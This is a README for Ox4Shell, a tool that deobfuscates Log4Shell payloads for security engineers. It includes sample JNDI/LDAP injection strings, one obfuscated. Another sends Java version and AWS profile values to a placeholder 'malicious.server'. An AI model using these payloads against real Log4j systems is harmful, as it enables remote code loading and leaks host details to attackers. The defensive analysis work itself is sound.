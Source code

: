 # Ox4Shell
Deobfuscate Log4Shell payloads with ease.


## Description
Since the release of the Log4Shell vulnerability (CVE-2021-44228), many tools were created to obfuscate Log4Shell payloads,
making the lives of security engineers a nightmare.

This tool intends to unravel the true contents of obfuscated Log4Shell payloads. 

For example, consider the following obfuscated payload:
```text
${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo@-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.mQ:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s:-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}
```

After running Ox4Shell, it would transform into an intuitive and readable form:
```text
${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}
```


## Usage
To run the tool simply:
```
~/Ox4Shell » python ox4shell.py --help
usage: ox4shell [-h] [-d] [-m MOCK] [--max-depth MAX_DEPTH] (-p PAYLOAD | -f FILE)

   ____       _  _   _____ _          _ _ 
  / __ \     | || | / ____| |        | | |
 | |  | |_  _| || || (___ | |__   ___| | |
 | |  | \ \/ /__   _\___ \| '_ \ / _ \ | |
 | |__| |>  <   | | ____) | | | |  __/ | |
  \____//_/\_\  |_||_____/|_| |_|\___|_|_|

Ox4Shell - Deobfuscate Log4Shell payloads with ease.
    Created by http://oxeye.io

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           Enable debug mode
  -m MOCK, --mock MOCK  The location of the mock data JSON file that replaces certain values in the payload
  --max-depth MAX_DEPTH
                        The maximum number of iteration to perform on a given payload
  -p PAYLOAD, --payload PAYLOAD
                        A single payload to deobfuscate, make sure to escape '$' signs
  -f FILE, --file FILE  A file containing payloads delimited by newline

```


## Mock Data
The Log4j library has a few unique lookup functions, which allow users to look up environment variables, runtime 
information on the Java process, and so forth. This capability grants threat actors the ability to probe for specific 
information that can uniquely identify the compromised machine they targeted.

Ox4Shell uses the `mock.json` file to insert common values into certain lookup function, for example,
if the payload contains the value `${env:HOME}`, we can replace it with a custom mock value.

The default set of mock data provided is:
```json
{
    "hostname": "ip-127.0.0.1",
    "env": {
        "aws_profile": "staging",
        "user": "ubuntu",
        "pwd": "/opt/",
        "path": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin"
    },
    "sys": {
        "java.version": "16.0.2",
        "user.name": "ubuntu"
    },
    "java": {
        "version": "Java version 16.0.2",
        "runtime": "OpenJDK Runtime Environment (build 1.8.0_181-b13) from Oracle Corporation",
        "vm": "OpenJDK 64-Bit Server VM (build 25.181-b13, mixed mode)",
        "os": "Linux 5.10.47-linuxkit unknown, architecture: amd64-64",
        "locale": "default locale: en_US, platform encoding: UTF-8",
        "hw": "processors: 1, architecture: amd64-64"
    }
}

```

As an example, we can deobfuscate the following payload using the Ox4Shell's mocking capability:
```bash
~/Ox4Shell >> python ox4shell.py -p "\${jndi:ldap://\${sys:java.version}.\${env:AWS_PROFILE}.malicious.server/a}"  
${jndi:ldap://16.0.2.staging.malicious.server/a}
```

## Authors
- [Daniel Abeles](https://twitter.com/Daniel_Abeles)
- [Ron Vider](https://twitter.com/ron_vider)


## License
The source code for the project is licensed under the MIT license, which you can find in the LICENSE file.
